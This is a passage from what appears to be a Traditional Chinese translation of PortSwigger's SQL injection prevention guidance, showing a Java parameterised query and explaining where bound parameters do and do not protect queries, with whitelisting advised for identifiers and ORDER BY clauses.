PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

您可以在不可信輸入作為查詢語句中的資料出現的任何情況下使用參數化查詢語句，包括 `WHERE` 子句以及 `INSERT` 或 `UPDATE` 語句中的值。它們無法用於處理查詢語句其他部分的不可信輸入，例如資料表或欄位名稱，或 `ORDER BY` 子句。將不可信資料放入查詢語句這些部分的應用程式功能需要採用不同的方法，例如：

* 將允許的輸入值列入白名單。
* 使用不同的邏輯來實現所需的行為。

要使參數化查詢語句有效防範 SQL 注入，查詢語句中使用的字串必須始終是硬編碼的常數。它絕不能包含來自任何來源的變數資料。不要試圖逐案判斷某項資料是否可信，並在被認為安全的情況下繼續在查詢語句中使用字串串接。很容易對資料的可能來源產生誤判，或者其他程式碼的變更可能會污染可信資料。

了解更多：[Find SQL injection vulnerabilities using Burp Suite's web vulnerability scanner](https://portswigger.net/burp/vulnerability-scanner)
